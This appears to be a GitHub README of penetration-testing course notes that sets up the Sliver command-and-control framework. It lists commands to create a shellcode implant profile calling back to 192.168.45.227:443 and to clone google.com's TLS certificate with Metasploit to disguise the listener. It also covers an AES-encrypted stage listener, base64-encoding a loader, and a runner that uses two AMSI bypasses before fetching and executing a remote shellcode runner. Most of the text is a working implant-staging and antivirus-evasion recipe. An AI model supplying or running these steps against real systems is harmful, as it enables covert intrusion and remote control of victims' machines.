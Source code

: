 # Overview

# Sliver Setup
## Create profile local64 and point to port 443
`sliver > profiles new --http 192.168.45.227:443 --format shellcode local64`

## Setup certs with metasploit
`msfconsole -q -x "use auxiliary/gather/impersonate_ssl; set RHOST www.google.com; run; exit"`
Then save the .crt and .key files into an appropriate folder for easy reference

## Setup main listener with google.crt / key generated with metasploit
`sliver > https -L 192.168.45.227 -l 443 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key`

## Setup the main stager with unzip key / decryption keys 
`sliver > stage-listener --url https://192.168.45.227:8064 --profile local64 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

# Sliver Payload
The sliverloader.cs when compiled will generate a SliverLoader-x64.bin file which will require encoding into base 64

`PS C:\directory2sliver> get-content -encoding byte -path .\SliverLoader-x64.dll | clip`

use the simple powershellencoder.ps1 script to automate or simply paste into cyberchef 'To Base64' to encode, just need to modify the path 

`PS C:\directory2sliver> .\powershellEncoder.ps1`

## Add the encoded payload to a shellcode runner labeled sliver.txt (or .ps1 depending on need to obfuscate)
sliver.ps1 is the shellcode runner, should be used in conjunction with runner.ps1

## runner.ps1 or .txt is a quick and dirty multi script runner
The script runner will call 2 amsi bypasses, pass the current OS architecture and context user runner.txt is running in then finally pull and run the sliver.ps1. 